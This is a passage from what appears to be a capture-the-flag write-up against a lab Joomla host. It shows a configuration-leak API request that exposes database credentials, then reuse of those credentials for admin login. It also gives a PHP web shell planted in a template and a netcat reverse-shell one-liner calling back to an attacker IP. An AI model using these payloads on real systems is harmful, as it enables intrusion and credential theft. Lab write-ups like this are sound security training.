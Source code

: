 Analyzing the attached python script, we have to make a request throw the API to the following path:

- `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`

This will leak the system's configuration, which contains the Joomla! **MySQL database credentials** in plaintext.

Taking a look to the dump, we will see a User & a Password:

-  **Lewis -> P4ntherg0t1n5r3c0n##**

Although these credentials are from the MySQL Database, we can try using them in the **/administrator** page.

After submitting the credentials we are inside the administrative Joomla instance :)

---

### Exploiting Administrative Joomla Instance

Taking a look i found two users registered:

![Desktop View](Users.png)

Now on we have to find a way to get RCE, so i found two ways to achieve RCE:

-  **Via Template**
-  **Via Extension-Plugin**

Since Joomla is made in PHP, we can add PHP code to any Plugin or Template.

-- -
#### Template Modification 

In order to modify a Joomla Template go to *System -> Site Templates* and select any template, then use any php file already configures, usually `index.php` works well, so just add a then next PHP line in the bottom of the index.php & save.

```php
<?php system($_GET['cmd']); ?>
```

Then just go to */index.php* and use the usual reverse shell with `netcat`:

```bash
curl -s -X GET http://dev.devvortex.htb/index.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.5 443 >/tmp/f
```

_Remember to URL-encode every '&' in the reverse shell_

Unfortunately this usually does't work, it execute commands but somehow it does not send the reverse shell.

---
#### Adding a Web-Shell Plugin

I like to use **p0dalirius** project, this project give us RCE and some extra features:
